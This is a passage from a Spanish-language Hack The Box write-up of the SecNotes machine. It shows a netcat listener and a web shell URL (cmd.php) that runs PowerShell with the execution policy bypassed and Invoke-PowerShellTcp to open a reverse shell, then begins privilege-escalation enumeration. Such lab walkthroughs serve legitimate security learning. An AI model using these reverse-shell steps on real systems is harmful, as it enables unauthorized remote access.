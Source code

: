 Nos ponemos en escucha a través del puerto que determinamos anteriormente.

```
sudo rlwrap nc -nlvp <puertoCualquiera>
```

Para finalmente a través del navegador añadir lo siguiente al url.

```
/cmd.php?cmd=powershell -ep bypass .\Invoke-PowerShellTcp
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-02-28-SecNotes-Hack-The-Box/37.png)

### [](#header-3)Escalada De Privilegios

Si empezamos a enumerar el sistema, nos daremos cuenta que dentro del _Disco Local C_ existe un archivo `Ubuntu.zip` así como una carpeta que lleva por nombre `Distros`, interesante.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2022-02-28-SecNotes-Hack-The-Box/38.png)
